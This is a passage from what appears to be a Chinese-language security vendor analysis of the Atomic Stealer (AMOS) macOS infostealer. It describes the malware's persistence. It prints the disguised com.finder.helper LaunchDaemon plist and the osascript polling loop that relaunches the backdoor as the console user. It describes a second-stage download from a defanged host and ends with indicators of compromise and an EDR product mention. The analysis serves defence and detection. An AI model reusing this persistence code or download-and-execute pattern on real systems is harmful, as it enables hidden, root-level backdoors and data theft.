

*end.html*

### 持久化

恶意软件通过根植于 `installPersistence` 例程的多阶段机制实现持久化，该机制利用在凭据收集阶段窃取的用户密码。

#### LaunchDaemon 安装

恶意软件构建一个标记为 **com.finder.helper** 的 LaunchDaemon plist，故意模仿合法的 Apple 系统进程以逃避日常检查。plist 将 **RunAtLoad** 和 **KeepAlive** 都设置为 **true**，确保代理在每次启动时启动，并在进程被终止时自动重启，使简单的终止无效。使用之前窃取的密码，恶意软件将 plist 复制到 `/Library/LaunchDaemons/com.finder.helper.plist`，设置所有权为 **root:wheel**，并通过 `launchctl` 立即加载它，实现 root 级持久化，无需额外的权限提升。

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN"
  "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
  <key>Label</key>
  <string>com.finder.helper</string>
  <key>ProgramArguments</key>
  <array>
    <string>/bin/bash</string>
    <string>~/.agent</string>
  </array>
  <key>RunAtLoad</key>
  <true/>
  <key>KeepAlive</key>
  <true/>
</dict>
</plist>
```

#### .mainhelper

脚本从 `https://wusetail[.]com/zxc/kito` 下载第二阶段二进制文件，写入 `~/.mainhelper`。通过 `chmod +x` 立即授予执行权限，为代理循环的重复调用做准备。`.mainhelper` 作为后门运行，可能通过 `/api/tasks` 端点监听指令。

**

*指示 C2 的动态日志*

#### 通过 .agent 的用户上下文转换

恶意软件将 bash 脚本写入 `~/.agent`，运行一秒钟的轮询循环。在每次迭代中，脚本生成一个 osascript 块，查询 `stat -f "%Su" /dev/console` 以识别当前活动的控制台用户。当检测到非 root、非空用户时，脚本通过 `sudo -u` 将执行转换到该用户的上下文，在登录用户的会话中重新启动 `~/.mainhelper`。这确保第二阶段后门在有效用户上下文中运行，无论系统如何启动。

```
while true; do
  osascript <<EOF
  set loginContent to do shell script "stat -f \"%Su\" /dev/console"
  if loginContent is not equal to "" and loginContent is not equal to "root"
    do shell script "sudo -u " & quoted form of loginContent & " ~/.mainhelper"
  end if
EOF
  sleep 1
done
```

## 结论

Atomic Stealer (AMOS) 的演进继续处于活跃开发状态，拥有众多变体，同时持续利用 "ClickFix" 浏览器提示和伪装安装程序。

[**Iru 端点检测与响应 (EDR)**](/products/endpoint/endpoint-management) 在设置为保护模式时，会自动中和检测到的文件，并监控信息窃取者的特征行为模式，包括本文档记录的持久化机制和外传技术。

## 妥协指标

**样本哈希：**

-   `C42061d43760bfa805955b97afc015341241ce3273da0e3a3ddfa34b4219d5ca`

**外传 C2：**

-   `92[.]246[.]136[.]14`
-   `laislivon[.]com`

**Payload C2：**

-   `wusetail[.]com`

**钓鱼站点：**

-   `systellis[.]com`

**后门 C2：**

-   `45[.]94[.]47[.]204`